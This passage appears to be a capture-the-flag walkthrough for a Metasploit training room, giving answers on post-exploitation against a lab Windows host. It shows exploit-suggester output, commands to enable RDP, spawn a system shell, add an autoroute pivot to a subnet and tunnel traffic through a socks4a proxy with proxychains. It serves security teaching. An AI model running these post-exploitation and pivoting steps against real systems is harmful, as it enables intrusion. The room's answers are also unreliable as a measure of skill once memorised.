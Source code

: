 ```
[+] 10.10.234.208 - exploit/windows/local/ms13_053_schlamperei: The target appears to be vulnerable.
[+] 10.10.234.208 - exploit/windows/local/ms13_081_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.234.208 - exploit/windows/local/ms14_058_track_popup_menu: The target appears to be vulnerable.
[+] 10.10.234.208 - exploit/windows/local/ms15_051_client_copy_image: The target appears to be vulnerable.
[+] 10.10.234.208 - exploit/windows/local/ntusermndragover: The target appears to be vulnerable.
[+] 10.10.234.208 - exploit/windows/local/ppr_flatten_rec: The target appears to be vulnerable.
meterpreter > 
```
12. Finally, let's try forcing RDP to be available. This won't work since we aren't administrators, however, this is a fun command to know about: `run post/windows/manage/enable_rdp`
```
no answer needed
```
13. One quick extra question, what command can we run in our meterpreter session to spawn a normal system shell? 
```
shell
```

#Task 7 Makin' Cisco Proud
1. Let's go ahead and run the command `run autoroute -h`, this will pull up the help menu for autoroute. What command do we run to add a route to the following subnet: 172.18.1.0/24? Use the -n flag in your answer.
```
run autoroute -s 172.18.1.0/24 -n 255.255.255.0
```
2. Additionally, we can start a socks4a proxy server out of this session. Background our current meterpreter session and run the command `search server/socks4a`. What is the full path to the socks4a auxiliary module?
```
auxiliary/server/socks4a
```
3. Once we've started a socks server we can modify our /etc/proxychains.conf file to include our new server. What command do we prefix our commands (outside of Metasploit) to run them through our socks4a server with proxychains?
```
proxychains
```
